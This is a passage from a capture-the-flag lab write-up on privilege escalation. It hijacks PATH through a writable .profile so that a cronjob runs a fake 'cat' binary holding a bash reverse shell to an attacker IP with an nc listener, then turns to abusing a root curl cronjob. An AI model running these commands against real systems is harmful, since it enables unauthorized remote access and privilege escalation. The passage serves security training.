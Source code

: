 We can access `/home/F30s` and check the file permissions using `ls -lah`:

```
$ ls -lah /home/F30s/
```

![74a4cdee13e47cc938b9f69e9a1fee11.png](/resources/e91df56876b943bc9bcfe6a475066a6c.png)

We have write access to the configuration file '.profile' which is used by [Bash](https://www.gnu.org/savannah-checkouts/gnu/bash/manual/bash.html) when it is invoked as a login shell.

If we create a binary with the name 'cat' and add the path of the binary to '.profile', the binary will be executed by the cronjob as the user 'F30s'.

First we create the binary in the `/tmp/` directory with the reverse shell command using `echo`. The `-e` option will enable interpretation of backslash escapes, `\n` will create a new line and `>` will output the result to a new file named 'cat':

```
$ cd /tmp/
$ echo -e '#!/bin/bash\nbash -i >&/dev/tcp/10.13.0.185/4445 0>&1' > cat
```

Then we make the file executable with `chmod +x`:

```
$ chmod +x cat
```

On our attacker machine we start a listener on port 4445:

```
$ nc -nvlp 4445
```

On the victim machine we edit `/home/F30s/.profile` by overwriting the file with the path of our new binary as a `PATH` variable using `echo`:

```
$ echo 'PATH="/tmp/:$PATH"' > /home/F30s/.profile
```

And back on the terminal listening on port 4445 we should receive a connection:

![208bdc35d82d1066b0d308edfc2148a3.png](/resources/e63c09eef2e84a8f9c96a5cb0fb1b08b.png)

We know the next flag is in a file named 'flag2.txt' but if we use `find` to search for it, there are no results. So the file is either in a directory we cannot access like `/root` or it's not on this machine.

### \[-] root\@482cbf2305ae

The other cronjob running is `curl -K /home/F30s/site_check`. The [-K option](https://curl.se/docs/manpage.html#-K) uses the configurations in `/home/F30s/site_check`. Since we have write access to the configuration file we can use it to access files owned by the user 'root' because the cronjob is being run by the user 'root'.

Let's check the contents of 'site\_check' and since we changed the `PATH` variable, we need to use the full path for `cat` instead:
